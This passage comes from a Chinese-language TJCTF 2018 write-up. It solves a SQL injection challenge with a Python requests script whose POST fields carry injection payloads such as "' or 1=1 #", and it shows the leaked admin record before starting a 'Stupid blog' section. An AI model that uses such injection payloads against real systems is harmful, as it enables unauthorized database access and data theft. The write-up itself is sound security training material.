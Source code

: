 提示：`This is what I got about you from the database: no such column: passwd`

到这里大概知道我们可以干啥了。。通过修改这个字段，让服务器查询出我们想得到的信息

根据上面的分析，或许使用python的request请求更加合适呢！

[![](https://jianghuxia.github.io/2018/08/13/tjctf2018/tjctf2018_web_43.png)](https://jianghuxia.github.io/2018/08/13/tjctf2018/tjctf2018_web_43.png)

这里简单的sql测试,就基本可以大致的信息，题目所求用户admin的ip地址

```
#-*-coding:utf-8

import requests

url = 'https://ess-kyoo-ell.tjctf.org'

s=requests.Session()

data=`{`

    "email":"' or 1=1 #",

    #"username or 1=1 --":""

    "(username or 1=1) and username = 'admin' --":""

`}`

r=s.post(url,data=data)

print 'n'.join(r.text.split('n')[174:174+18])     #只查看174~174+18行的网页源代码

s.close()
```

得到运行结果

```
&lt;p id="profile-name" class="profile-name-card"&gt;This is what I got about you from the database: `{`'id': 706, 'username': 'admin', 'first_name': 'Administrative', 'last_name': 'User', 'email': '[email protected]', 'gender': 'Female', 'ip_address': '145.3.1.213'`}`&lt;/p&gt;
```

答案即是tjctf`{`145.3.1.213`}`



## Web_Stupid blog

[![](https://jianghuxia.github.io/2018/08/13/tjctf2018/tjctf2018_web_44.png)](https://jianghuxia.github.io/2018/08/13/tjctf2018/tjctf2018_web_44.png)

打开页面，有注册和登录，那就是注册再登录试试咯

[![](https://jianghuxia.github.io/2018/08/13/tjctf2018/tjctf2018_web_45.png)](https://jianghuxia.github.io/2018/08/13/tjctf2018/tjctf2018_web_45.png)
